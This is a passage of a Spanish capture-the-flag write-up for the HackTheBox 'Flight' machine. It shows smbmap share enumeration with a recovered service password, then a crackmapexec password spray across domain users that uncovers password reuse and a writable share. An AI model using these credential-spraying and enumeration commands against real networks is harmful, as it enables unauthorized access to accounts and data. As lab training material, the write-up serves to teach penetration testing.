 Ahora tenemos la contraseña del usuario svc_apache, perfecto.

Viendo los recursos compartidos vemos que no tenemos permisos de escritura a ninguno

{% highlight bash %}
#smbmap -u "svc_apache" -p "S@Ss\!K@*t13" -H 10.10.11.187

[+] IP: flight.htb:445	Name: unknown             	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	Shared                                            	READ ONLY	
	SYSVOL                                            	READ ONLY	Logon server share 
	Users                                             	READ ONLY	
	Web                                               	READ ONLY	
{% endhighlight %}

Pero si enumeramos los usuarios con crackmapexec y hacemos pray'n spray para ver si alguien tiene la misma contraseña que este servicio encontramos a un tal "s.moon"

{% highlight bash %}
❯ cme smb 10.10.11.187 -u users.txt -p "S@Ss\!K@*t13"
SMB         10.10.11.187    445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.187    445    G0               [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.10.11.187    445    G0               [-] flight.htb\v.stevens:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\d.truff:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\i.francis:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\w.walker:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\c.bum:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\m.gold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\l.kein:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\g.lors:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [-] flight.htb\r.cold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.10.11.187    445    G0               [+] flight.htb\s.moon:S@Ss!K@*t13 
{% endhighlight %}

y con este usuario si que tenemos un permiso especial

{% highlight bash %}
#smbmap -u "s.moon" -p "S@Ss\!K@*t13" -H 10.10.11.187

[+] IP: flight.htb:445	Name: unknown             	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	Shared                                            	READ, WRITE	
	SYSVOL                                            	READ ONLY	Logon server share 
	Users                                             	READ ONLY	
	Web                                               	READ ONLY	
{% endhighlight %}
